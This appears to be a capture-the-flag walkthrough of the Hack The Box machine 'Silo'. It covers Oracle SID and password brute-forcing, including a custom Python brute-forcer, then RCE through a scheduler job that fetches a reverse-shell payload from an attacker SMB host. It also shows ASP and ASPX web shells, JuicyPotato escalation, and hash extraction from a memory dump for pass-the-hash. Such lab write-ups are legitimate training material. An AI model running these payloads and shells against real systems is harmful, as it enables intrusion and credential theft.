







# [Silo](https://app.hackthebox.eu/machines/131)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.82 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.82 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.82
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.82
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.82/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.82/
```



Looks like a default IIS install. Try looking for `asp` and `aspx` files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.txt -x asp,aspx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.82/ &
```

While that runs, enumerate SMB:

```
smbclient -N -L //10.10.10.82
smbclient -U 'user%password' -L //10.10.10.82
rpcclient -N 10.10.10.82
```

But all result in `NT_STATUS_ACCESS_DENIED` or `NT_STATUS_ACCESS_DENIED`. Try WebDav:

```bash
davtest -url http://10.10.10.82/ -cleanup
```

But that gives and HTTP 405. The full `nmap` scane shows a new interesting port:


TCP 1521 is running `Oracle TNS listener 11.2.0.2.0 (unauthorized)`? Figure out more info about this service:

- https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener#basic-information

So the service is the remote management port for an Oracle database (Oracle DB). Try getting version info directly:

```bash
sudo nmap -v -d --script "oracle-tns-version" -p 1521 -sV 10.10.10.82
```


Not much new information. Look at the script source to see what it is doing:

- https://svn.nmap.org/nmap/scripts/oracle-tns-version.nse

It seems like the `unauthorized` response is due to a 1189 error code. Oracle DB error codes can be found here:

- https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm

This shous the following for the error:

```
TNS-01189: The listener could not authenticate the user
```

Getting warmer. Next bruteforce a list of database names (called SIDs) using `hydra`:

```bash
# generate unique word list from nmap and MSF SIDS
cp /usr/share/metasploit-framework/data/wordlists/sid.txt ./msf_sid.txt
cp /usr/share/nmap/nselib/data/oracle-sids ./nmap_sid.txt
sort nmap_sid.txt msf_sid.txt | awk 'NF' | uniq > sid.txt
# run bruteforce
hydra -L sid.txt -s 1521 10.10.10.82 oracle-sid
```


So there are 3 DB names:

```
XE
CLRExtProc
PLSExtProc
```

Now try to bruteforce a login for these databases using `nmap`. Since the target version is `11.2.0.2.0`, it is vulnerable to CVE-2012-3137:

- https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force
- https://nvd.nist.gov/vuln/detail/CVE-2012-3137
- https://nmap.org/nsedoc/scripts/oracle-brute-stealth.html

```bash
nmap -v -n -Pn -p 1521 --script oracle-brute-stealth \
     --script-args "oracle-brute-stealth.sid=XE,oracle-brute-stealth.johnfile=oracle.hash" \
     10.10.10.82
```

**NOTE:** If `nmap` crashes, try updating it `sudo apt-get --only-upgrade install nmap` to fix the following bug:

- https://github.com/nmap/nmap/issues/2010

But this returns a long list of 145 hashes to try and crack... Maybe just try a basic brute-force:

```bash
# should be at /usr/share/nmap/nselib/data/oracle-default-accounts.lst
CREDS=$(find / -iname oracle-default-accounts.lst 2>/dev/null)
nmap -v -n -d -Pn -p 1521 --script oracle-brute \
     --script-args "oracle-brute.sid=XE,brute.credfile=$CREDS,oracle-brute.nodefault" \
     10.10.10.82
```

But this returns the following:


What is with the `Account is locked`? Look at the source code:

- https://svn.nmap.org/nmap/scripts/oracle-brute.nse

It just says that a `ORA[-]28000` was returned. Looking for that error in the list of status messages does not return anything? From here there are 2 options:

- Install [SQLPlus](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation) from Oracle to connect to the DB manually and verify credentials
  - Install is annoying but provides raw access to the database
- Install [odat](https://github.com/quentinhardy/odat) to check credentials manually
  - Easy install and test but this may not be allowed on the OSCP exam...

Use `odat` [releases](https://github.com/quentinhardy/odat/releases) because it is simplier to install:

```bash
# create credential database file from nmap
cat <<END>creds.upper.txt
CTXSYS/CTXSYS
OUTLN/OUTLN
SCOTT/TIGER
SYSTEM/WELCOME1
MDSYS/MDSYS
DIP/DIP
HR/HR
DBSNMP/DBSNMP
XDB/CHANGE_ON_INSTALL
END
# convert all to lowercase
cat creds.upper.txt | tr '[:upper:]' '[:lower:]' > creds.lower.txt
# download tool
wget https://github.com/quentinhardy/odat/releases/download/4.3/odat-linux-libc2.12-x86_64.tar.gz
tar -xvf odat-linux-libc2.12-x86_64.tar.gz
odat-libc2.12-x86_64/odat-libc2.12-x86_64 passwordguesser \
                                          -s 10.10.10.82 \
                                          -p 1521 \
                                          -d XE \
                                          --accounts-file creds.lower.txt
```

This returns a valid account login:


Now check what kinds of accesses this account has:

```bash
odat-libc2.12-x86_64/odat-libc2.12-x86_64 utlfile \
                                          -s 10.10.10.82 \
                                          -p 1521 \
                                          -d XE \
                                          -U scott \
                                          -P tiger
```

This did not return any hits (all `[-] KO`)... Now install `sqlplus` manually? Since the target DB version is 11.2.0.2.0, use client version 11.2.0.4.0. There are 3 libraries needed for this to work:

- **NOTE:** You will need an Oracle account to download these...
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-basic-linux.x64-11.2.0.4.0.zip
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-sqlplus-linux.x64-11.2.0.4.0.zip
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-sdk-linux.x64-11.2.0.4.0.zip

```bash
sudo mkdir -p /opt/oracle
sudo mv instantclient-sdk-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo mv instantclient-basic-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo mv instantclient-sqlplus-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo unzip /opt/oracle/instantclient-sdk-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
sudo unzip /opt/oracle/instantclient-basic-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
sudo unzip /opt/oracle/instantclient-sqlplus-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
alias sqlplus='/opt/oracle/instantclient_11_2/sqlplus'
export PATH=$PATH:/opt/oracle/instantclient_11_2
export SQLPATH=/opt/oracle/instantclient_11_2
export TNS_ADMIN=/opt/oracle/instantclient_11_2
export LD_LIBRARY_PATH=/opt/oracle/instantclient_11_2
export ORACLE_HOME=/opt/oracle/instantclient_11_2
```

Now that `sqlplus` is installed, login using the credentials found:

```bash
sqlplus scott/tiger@10.10.10.82:1521/XE
```



Some research shows that there is  Python library (used by `odat` as well) that can be used to make a simple brute forcer that performs better than all the others (lolz):

- https://oracle.github.io/python-cx_Oracle/
- https://cx-oracle.readthedocs.io/en/latest/user_guide/installation.html

```python
import random
import cx_Oracle
import multiprocessing
import multiprocessing.dummy

DATABASE = 'XE'
TARGET = '10.10.10.82:1521'
WORDLIST = '/usr/share/nmap/nselib/data/oracle-default-accounts.lst'

def thread(credential):
  username = credential.split('/')[0].strip().lower()
  password = credential.split('/')[1].strip().lower()
  #print(f'[*] trying {username}/{password} ...')
  try:
    conn = cx_Oracle.connect(f'{username}/{password}@{TARGET}/{DATABASE}')
    print(f'[!!!] FOUND: {username}/{password}')
  except cx_Oracle.DatabaseError as exc:
    error, = exc.args
    if error.code not in [1017]:
      print(f'[???] FOUND: {username}/{password}')
      print(f'[???] Oracle-Error-Code: {error.code}')
      print(f'[???] Oracle-Error-Message: {error.message}')
    
if __name__ == '__main__':
  creds = []
  with open(WORDLIST, 'r') as f:
    creds.extend(f.readlines())
  random.shuffle(creds)
  print(f'[*] loaded {len(creds)} credentials ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, creds)
  threads.join()
```

Run this script as follows (saved as `oracle.py`):

```bash
python3 -m pip install cx_Oracle --upgrade
python3 oracle.py
```

Running this script verifies (much more quickly than the other scripts/tools...) that `scott/tiger` is the only default account _active_ on the target:


With this account access, there are a few ways to go about getting code execution:

- https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-rce-and-more

First do some enumeration:

- http://www.red-database-security.com/wp/oracle_cheat.pdf

```sql
select * from v$version;                 -- shows the Oracle version
select * from dba_registry_history;      -- get Oracle Patchlevel
select * from all_users;                 -- shows all usernames
select owner,table_name from all_tables; -- show tables
select * from session_roles;             -- shows the session roles
select * from user_sys_privs;            -- show system privileges of the current user
select * from user_role_privs;           -- show role privileges of the current user
select * from user_tab_privs;            -- show table privileges of the current user
select userenv('ISDBA') from dual;       -- see if user is SYSDBA
```

The user `scott` does not seem to have any privileges... Try connecting as SYSDBA:

- Oracle DB is weird in that, you must request the privledges you want to use in your session. If you do not request it, then you get the lowest privledges of your account.


Nice! This means it is possible to get RCE. First try Java:

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

But this results in a `ORA-29538: Java not installed` error. Next try the `dbmsscheduler` to run an external task. First create and host a payload on Kali:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 6969
```

Then create and execute the the task over the SQL connection:

- https://docs.oracle.com/cd/B28359_01/server.111/b28310/schedadmin006.htm

```sql
BEGIN 
DBMS_SCHEDULER.create_program(
   program_name          => 'BUBBA',
   program_type          => 'EXECUTABLE',
   program_action        => 'c:\windows\system32\cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe',
   number_of_arguments   => 0,
   enabled               => TRUE,
   comments              => '');
END;
/
BEGIN 
DBMS_SCHEDULER.create_job(
  job_name        => 'GUMP',
  program_name    => 'BUBBA',
  start_date      => NULL,
  repeat_interval => NULL,
  end_date        => NULL,
  enabled         => TRUE); 
END;
/
```

This returns a broken PATH shell as SYSTEM:



Then get the hashes by manual browsing:


----

Now this method of getting `root.txt` is actually the "faster" way. Another way is to use the SYSDBA role to upload an ASP or ASPX webshell to the IIS webserver. Start with the following ASP web shell one-liner:

```php
<% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()) %>
```

This can be uploaded with the following SQL:

- **NOTE:** Assuming the IIS webserver is installed at the default location of `c:\inetpub\wwwroot\`

```sql
DECLARE
  v_file UTL_FILE.FILE_TYPE;
BEGIN
  v_file := UTL_FILE.FOPEN('/inetpub/wwwroot/','bubba.asp','w');
  UTL_FILE.PUT_LINE(v_file,'<% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("c")).StdOut.Readall()) %>');
  UTL_FILE.FCLOSE(v_file); 
END; 
/
```

Now test this as follows:

```bash
curl -s http://10.10.10.82/bubba.asp?c=whoami
```

However, this returns a `404 - File or directory not found` error. Try an ASPX (ASP.NET) we shell:

```asp
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e) {
Process p = new Process();
p.StartInfo.CreateNoWindow = true;
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.Arguments = "/c " + Request.QueryString["c"];
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.UseShellExecute = false;
p.Start();
Response.Write(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
}
</script>
```

Save the above code in `bubba.aspx` and run the following to remove the newlines to get a web shell one-liner:

```bash
tr -d '\n' < bubba.aspx
```

Then paste the code into the followin Oracle SQL query as a SYSDBA:

```sql
DECLARE
  v_file UTL_FILE.FILE_TYPE;
BEGIN
  v_file := UTL_FILE.FOPEN('/inetpub/wwwroot/','bubba.aspx','w');
  UTL_FILE.PUT_LINE(v_file,'<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e) {Process p = new Process();p.StartInfo.CreateNoWindow = true;p.StartInfo.FileName = "cmd.exe";p.StartInfo.Arguments = "/c " + Request.QueryString["c"];p.StartInfo.RedirectStandardOutput = true;p.StartInfo.RedirectStandardError = true;p.StartInfo.UseShellExecute = false;p.Start();Response.Write(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());}</script>');
  UTL_FILE.FCLOSE(v_file); 
END; 
/
```

Then test as follows:

```bash
curl -s http://10.10.10.82/bubba.aspx?c=whoami
```


Use this to get a dedicated reverse shell using the same payload that was used in the scheduled Oracle task to get a SYSTEM shell:

```bash
curl -s -G --data-urlencode 'c=\\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.82/bubba.aspx
```


This account has interesting privileges. The `SeImpersonatePrivilege` allows for the following exploits:

- https://github.com/ohpe/juicy-potato
- https://github.com/CCob/SweetPotato

Get a CSLID for the target OS version `Microsoft Windows Server 2012 R2 Standard` (from `systeminfo`):

- https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter

Use the exploit to get a shell as SYSTEM:

- Using CSLID `{e60687f7-01a1-40aa-86ac-db1cbf673334}` for `wuauserv`

```bash
# run on kali
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target as iis apppool\defaultapppool
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA %TEMP% JuicyPotato.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\JuicyPotato.exe -l 9876 -p %TEMP%\bubba.root.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

And this returns a SYSTEM shell:



---

There is _another_ way to SYSTEM too (lolz the box that never ends...)!  Looking at `c:\Users\Phineas\Desktop` shows an interesting file `Oracle issue.txt` with the following content:

```
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
�%Hm8646uC$
```

Going to the Dropbox link does actually provide a download option, however a password is needed. The `?` in the password looks like some encoding error? Download the file and look at the bytes raw:

```bash
# run on kali
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe c:\Users\Phineas\Desktop \\10.10.14.25\BUBBA "Oracle issue.txt" /copy:DT /w:1 /r:1 /v 
```


It seems like the raw password bytes are `a325486d38363436754324`. [Convert it to text](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=YTMyNTQ4NmQzODM2MzQzNjc1NDMyNA) and the password becomes `£%Hm8646uC$`. Access the link to download the memory dump file `SILO-20180105-221806.zip`. Then extract and parse the memory dump using `Volatility`:

- https://github.com/volatilityfoundation/volatility
- https://www.volatilityfoundation.org/releases

```bash
unzip SILO-20180105-221806.zip
wget http://downloads.volatilityfoundation.org/releases/2.6/volatility_2.6_lin64_standalone.zip
unzip volatility_2.6_lin64_standalone.zip
```

First, get the target profile to use based on the output from `systeminfo` on the target (`Microsoft Windows Server 2012 R2 Standard`):

```bash
volatility_2.6_lin64_standalone/volatility_2.6_lin64_standalone --info | grep 2012
```


Then test the profile to get a process listing of what was running when the memory dump was taken:

```bash
volatility_2.6_lin64_standalone/volatility_2.6_lin64_standalone --profile Win2012R2x64 -f SILO-20180105-221806.dmp pslist
```



Looks good. Now extract hashes from the memory image:

- https://www.aldeid.com/wiki/Volatility/Retrieve-password

```bash
volatility_2.6_lin64_standalone/volatility_2.6_lin64_standalone --profile Win2012R2x64 -f SILO-20180105-221806.dmp hivelist
# copy virtual address of \REGISTRY\MACHINE\SYSTEM and \SystemRoot\System32\Config\SAM
volatility_2.6_lin64_standalone/volatility_2.6_lin64_standalone --profile Win2012R2x64 -f SILO-20180105-221806.dmp hashdump \
  --sys-offset 0xffffc00000028000 \
  --sam-offset 0xffffc00000619000
```


Now use the above hash for `Administrator` to login:

```bash
psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7" administrator@10.10.10.82
```

